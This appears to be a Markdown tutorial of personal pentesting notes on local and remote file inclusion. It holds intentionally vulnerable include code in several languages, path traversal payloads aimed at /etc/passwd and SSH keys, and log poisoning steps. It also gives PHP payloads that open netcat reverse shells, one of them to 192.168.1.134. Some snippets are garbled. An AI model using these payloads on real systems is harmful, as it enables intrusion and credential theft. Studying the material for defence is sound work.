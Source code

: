 ```yaml
---
title: Notes | LFI
author: Zeropio
date: 2022-04-23
categories: [Notes, Vulnerabilities]
tags: [lfi]
permalink: /notes/vulnerabilities/lfi
---
```



# Local file inclusion
**LFI** is the process to include files locate in the server through the exploiting of vulnerable inclusion. The most common place we usually find LFI within is templating engines, for example `/index.php?page=about`. Where `index.php` sets static content and the parameter `page` dinamically. LFI vulnerabilities can lead to source code disclosure, sensitive data exposure, and even remote code execution under certain conditions.

Some examples of insecure code:
- PHP 

```php
if (isset($_GET['language'])) {
    include($_GET['language']);
}
```

- NodeJS 

```javascript
if(req.query.language) {
    fs.readFile(path.join(__dirname, req.query.language), function (err, data) {
        res.write(data);
    });
}
```

- Express.js 

```javascript
app.get("/about/:language", function(req, res) {
    res.render(`/${req.params.language}/about.html`);
});
```

- Java 

```jsp
<c:if test="${not empty param.language}">
    <jsp:include file="<%= request.getParameter('language') %>" />
</c:if>
```

- .NET 

```cs
@if (!string.IsNullOrEmpty(HttpContext.Request.Query['language'])) {
    <% Response.WriteFile("<% HttpContext.Request.Query['language'] %>"); %> 
}
```
```cs
@Html.Partial(HttpContext.Request.Query['language'])
```
```cs
<!--#include file="<% HttpContext.Request.Query['language'] %>"-->
```

## Read vs Execute

There are a difference in these functions between read and execute. Some of the above functions **only read** the content of the specified files, while others also **execute** the specified files:

| **Function**    | **Read content**   | **Execute**    | **Remote URL** |
|---------------- | --------------- | --------------- | -------------- |
| **PHP** |     
| `include()`/`include_once()` | - [x] | - [x] | - [x] | 


For example:
```
http://localhost/example.php?file=../../../../../../../etc/passwd
http://localhost/example.php?file=../../../../../../windows/system32/drivers/etc/hosts
```

With the terminal we can check easily:
```console
> curl -s "http://localhost/example.php?file=/etc/passwd"
```
##### **-s**: no verbose

We can check some important files:
- **/home/user/.ssh/id_rsa ->** check credentials for a ssh connection, with **ssh2john** we can break any ssh password if its weak or we have it in a dictionary.
- **/proc/sched_debug ->**  show many running scripts
- **/proc/net/fib_trie ->** check network interfaces (with *grep -i  "host local" -B 1* we can get local ip).
- **/proc/net/tcp ->** check port. The last four digits from the second column (rem_address), if we add a **0x** in Python before we can get the port (its common to not get ports like 80 here).

###  Directory Path Traversal
If the web is sanitaze with only one path allowed, we can move using **../**:
```console
> curl -s "http://localhost/example.php?file=../../../../../../../etc/passwd"
```

The web can set and extension to the end of the path, we can escape than with: **%00** at the end of the search.

#### Wrappers
Help to escape LFI sanitazer. For example:
- **?file=file:///etc/passwd ->** get the file.
- **?file=php:///filter/convert.base64-encode/resource=file.php ->** give all the content file (including comments) in base64 (useful to get the whole source code).

###  Log Poisoning
Change logs in order to recreate a RCE.

#### Reverse Shell
We can execute code accesing **/proc/self/environ**. We can modify the header in burpsuite to add:
```php
<?passthru('nc -e /bin/bash <ip> <port>');?>
```
To execute the reverse shell.

#### Apache2
In **/var/log/apache2/access.log** we can manipulate the user agent that the log is currently saving in the logs with curl. For example:
```console
> curl -s -H "User-Agent: <¿php system('whoami'); ?>" "http://localhost/example.php?file=/var/log/apache2/access.log"
```
Now we can execute code in the system.

Also, we can try to login (for example with ssh). **auth.log** will save the login attempt, if we execute the page after the login we will execute the script.
##### Maybe we need to encode the payload to base64

Another example is the **/var/log/auth.log**. We can try to log in by ssh with and invalid user and see that all the trys are been saving in the log.
If we log as a command, execute the log (loading with curl or in the web with LFI) we can execute the command and get a **reverse shell**:
- First we encode the connection (with netcat).
```console
> echo 'nc -e /bin/bash 127.0.0.1:443' | base64; echo
  bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMTo0NDMK
```
- Then we send this "user" to the log:
```console
> ssh '<¿php system("echo bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMTo0NDMK | base64 -d | bash"); ?>'@127.0.0.1 
```
Then we will try to log in with any password. Now we just need to reload the log in the web, then the code is executed.
```console
> curl -s -H "User-Agent: <¿php system('whoami'); ?>" "http://localhost/example.php?file=/var/log/auth.log"
```


# Remote File Inclusion (RFI)
Load files into the server.

We can create a plain file (**.txt**) with a php content:
```php
<?php
  passthru('nc -e /bin/sh 192.168.1.134 9000');
?>
```

Then we change the url with:
```
...?index=http://<ip>/revershell.txt
```
And then we can execute code.
